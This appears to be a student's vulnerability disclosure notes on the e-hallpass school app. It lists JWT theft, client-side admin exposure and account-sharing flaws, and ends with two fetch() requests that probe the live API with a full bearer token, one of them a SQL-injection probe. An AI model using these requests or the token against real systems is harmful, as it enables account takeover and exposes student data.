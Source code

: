 # Blue Linden, Web Manager at The Verdict, 9th grade
### bluelinden.art + theverdictjhs.com/blue

## Notification of Publication
As the second part of a two-part series on e-hallpass and how it will affect Justice High School, we'll be writing about how these issues were found as it's a topic of interest within Fairfax County Public Schools faculty. The first part doesn't talk about them in detail but it does mention their existence. The second part is a more in-depth look, and will contain slightly more detailed information of how these could have been exploited. I will personally block publication of the second part until I can personally confirm all issues mentioned both in this document and in that article have been resolved. 

## The Issues
1. The JSON Web Token used for authentication is accessible in plain text in LocalStorage as 'accessToken'
    - Discovered on 2/08/23
    - Severity - High
    - Status - Fixed
2. The newly added encryption on the JWT is easily bypassable using code bundled in the e-hallpass client and a 'tlasphe' cookie
    - Discovered on 3/21/23
    - Severity - High
    - Status - Not yet disclosed
3. Sections of the app's client code can be modified to show administrator views and options without the need for an admin account. API calls to privileged endpoints will fail as usual, however user enumeration of every account and email address is possible from this state, even without a privileged account.
    - Discovered on 2/07/23
    - Severity - Low
    - Status - Not yet disclosed
4. No checks are used to detect and prevent credential stealing on the server-side, so multiple accounts can be logged in on one access token, no matter the device, location, or IP address.
    - Discovered on 2/07/23
    - Severity - Medium
    - Status - Partially disclosed

## Why they're important
1. **JWT Plaintext:** *this issue has already been resolved.* The JWT used for authentication is stored in plain text, meaning that anyone with access to a logged-in computer can just copy the token and send it to themself somehow, allowing immediate access to another account without re-authentication.
2. **JWT Encryption:** This issue has the exact same implications as the first, which are that anyone with physical access to a computer logged into e-hallpass can steal the JWT and use it to impersonate the user. It requires more setup than the previous issue, and it took me about an hour of work in total to reverse-engineer, using a webpack-generated bookmarklet to inject the code into the page.
3. **App client admin checks:** This issue may potentially expose insecure endpoints if any are made in the future, and I'm honestly not sure how important it is. However, it does allow for user enumeration via a dropdown list containing student names and email addresses. All other administration endpoints are thankfully secured and gated as expected, returning 403s when accessed with a student account.
4. **Server-side anti-takeover:**

# Credits
## People
* blue linden
* [The Verdict's staff](https://theverdictjhs.com/staff)
* The Justice High School GSA

## Tooling
### Discovery
* Chrome DevTools
* [jwt.io](https://jwt.io) (JWT decoder + validator)
### Exploit Prototyping
* Visual Studio Code
* GitHub Copilot (AI-assisted code completion)
* Webpack (Javascript bundler)
* Bookmarkletify (bookmarklet generator for VS Code)

```javascript
fetch('https://ehpv2.e-hallpass.com/api/v5/passes', {
  method: 'POST',
  body: JSON.stringify({
"from_id":'3844546',"from_type":"App\\Models\\User","to_id":'3844547',"to_type":"App\\Models\\User","comment":"testing testing hacky hacky sql injection full account takeover blah blah blah hi admins i'm probing more vulnerabilities and i promise i'll tell y'all all about it soon don't mind meeeeee - blue linden"
  }),
  headers: {
    'Accept': 'application/json, text/plain, */*',
'Accept-Encoding': 'gzip, deflate, br',
      'Content-Type': 'application/json;',
      'Content-Length': '312',
'Accept-Language': 'en-US,en;q=0.9,es;q=0.8',
'Access-Control-Allow-Origin': '*',
'Authorization': 'Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdWQiOiIxIiwianRpIjoiZjJiZWMwM2ExOGNmYjA4NThjMjFmYThhZWM1NTlkNTlkYzU5YTQ4ZjEwMjUxYTM0Mzc5MWFhNTNlYTAwMTY5MDZkYTZkNDgyYjk2NDIxN2MiLCJpYXQiOjE2Nzk1MjI4NTQuOTU5ODMxLCJuYmYiOjE2Nzk1MjI4NTQuOTU5ODMzLCJleHAiOjE2Nzk1NTE2NTQuOTU2NDQ1LCJzdWIiOiIzODI0MDk0Iiwic2NvcGVzIjpbXX0.CY2jMaWo8dC19a3jT9zrvDlcHQROQOT1KVCYXxIJF1zeITn_Zo-Y7wVpnRbihGTxA-Cwkc1l2V5V7Z20-vn-3rr7eqWCZw8CdSlam6rBErLZY655d7GeZ117djp04VyPnJN94BFjdNTyfxUaEbeN1mM0H_3v9lwDenTof3FtGJOYSbEGcyx6oTndLLk8j1MuItnFWx5b_5hVcuwtWQ4zieFhmVBXYT1lpO5B22hdj_pxSMvYyHbkdM4IlKbO_OEVAwFF-RAJlV6rmqbtUA7yhsRhXGRWsK8FwO0EASSZ5dtS0IHx1BphJfN5CERGO_X8ONsdLgdZ147jd0GF2HXpDJCtbNatfhHq0oaUNv90qpt_elxX1jstDtpr-XEIpCtaMb1szq2S_-N31sixjxh-4XuX5oCChC68PP5fpZKZKsI44iH2Vwz5yg9sr5-t7jxjgUA0jB1xY4tl-jWtmKWe-tecyaTR2UAKKDFB4Ci5YH6PI5RzQc0pSaI4GisqM6TpljCQQpUHw7qxztrX5egAuRtOxUOHz9Jo-mZoSZaylUYpazJnM46sDZYq86SZ04Asbr29u5kmVxT8x3yd7yASnfAMKW6X70tvNVMO3ISa2H4Ygc30NI2Uc0-1mfHuSbnDhrfHiNvi1cBds4kFhUTDvjU4klciaDVLHdDjcL7jiWs',
'Cache-Control': 'no-cache',
'Connection': 'keep-alive',
'DNT': '1',
'Host': 'ehpv2.e-hallpass.com',
'Origin': 'https://e-hallpass.com',
'Pragma': 'no-cache',
'Referer': 'https://e-hallpass.com/',
'sec-ch-ua': '"Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"',
'sec-ch-ua-mobile': '?0',
'sec-ch-ua-platform': '"Windows"',
'Sec-Fetch-Dest': 'empty',
'Sec-Fetch-Mode': 'cors',
'Sec-Fetch-Site': 'same-site',
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36',
  }
})
.then(res => res.json())
.then(console.log);
```

```javascript
fetch('https://ehpv2.e-hallpass.com/api/v5/passes', {
  method: 'POST',
  body: JSON.stringify({
"from_id":'\'',"from_type":"","to_id":'2',"to_type":"App\\Models\\User","comment":"testing testing hacky hacky sql injection full account takeover blah blah blah hi admins i'm probing more vulnerabilities and i promise i'll tell y'all all about it soon don't mind meeeeee - blue linden"
  }),
  headers: {
    'Accept': 'application/json, text/plain, */*',
'Accept-Encoding': 'gzip, deflate, br',
      'Content-Type': 'application/json;',
      'Content-Length': '312',
'Accept-Language': 'en-US,en;q=0.9,es;q=0.8',
'Access-Control-Allow-Origin': '*',
'Authorization': 'Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdWQiOiIxIiwianRpIjoiZjJiZWMwM2ExOGNmYjA4NThjMjFmYThhZWM1NTlkNTlkYzU5YTQ4ZjEwMjUxYTM0Mzc5MWFhNTNlYTAwMTY5MDZkYTZkNDgyYjk2NDIxN2MiLCJpYXQiOjE2Nzk1MjI4NTQuOTU5ODMxLCJuYmYiOjE2Nzk1MjI4NTQuOTU5ODMzLCJleHAiOjE2Nzk1NTE2NTQuOTU2NDQ1LCJzdWIiOiIzODI0MDk0Iiwic2NvcGVzIjpbXX0.CY2jMaWo8dC19a3jT9zrvDlcHQROQOT1KVCYXxIJF1zeITn_Zo-Y7wVpnRbihGTxA-Cwkc1l2V5V7Z20-vn-3rr7eqWCZw8CdSlam6rBErLZY655d7GeZ117djp04VyPnJN94BFjdNTyfxUaEbeN1mM0H_3v9lwDenTof3FtGJOYSbEGcyx6oTndLLk8j1MuItnFWx5b_5hVcuwtWQ4zieFhmVBXYT1lpO5B22hdj_pxSMvYyHbkdM4IlKbO_OEVAwFF-RAJlV6rmqbtUA7yhsRhXGRWsK8FwO0EASSZ5dtS0IHx1BphJfN5CERGO_X8ONsdLgdZ147jd0GF2HXpDJCtbNatfhHq0oaUNv90qpt_elxX1jstDtpr-XEIpCtaMb1szq2S_-N31sixjxh-4XuX5oCChC68PP5fpZKZKsI44iH2Vwz5yg9sr5-t7jxjgUA0jB1xY4tl-jWtmKWe-tecyaTR2UAKKDFB4Ci5YH6PI5RzQc0pSaI4GisqM6TpljCQQpUHw7qxztrX5egAuRtOxUOHz9Jo-mZoSZaylUYpazJnM46sDZYq86SZ04Asbr29u5kmVxT8x3yd7yASnfAMKW6X70tvNVMO3ISa2H4Ygc30NI2Uc0-1mfHuSbnDhrfHiNvi1cBds4kFhUTDvjU4klciaDVLHdDjcL7jiWs',
'Cache-Control': 'no-cache',
'Connection': 'keep-alive',
'DNT': '1',
'Host': 'ehpv2.e-hallpass.com',
'Origin': 'https://e-hallpass.com',
'Pragma': 'no-cache',
'Referer': 'https://e-hallpass.com/',
'sec-ch-ua': '"Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"',
'sec-ch-ua-mobile': '?0',
'sec-ch-ua-platform': '"Windows"',
'Sec-Fetch-Dest': 'empty',
'Sec-Fetch-Mode': 'cors',
'Sec-Fetch-Site': 'same-site',
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36',
  }
})
.then(res => res.json())
.then(console.log);
```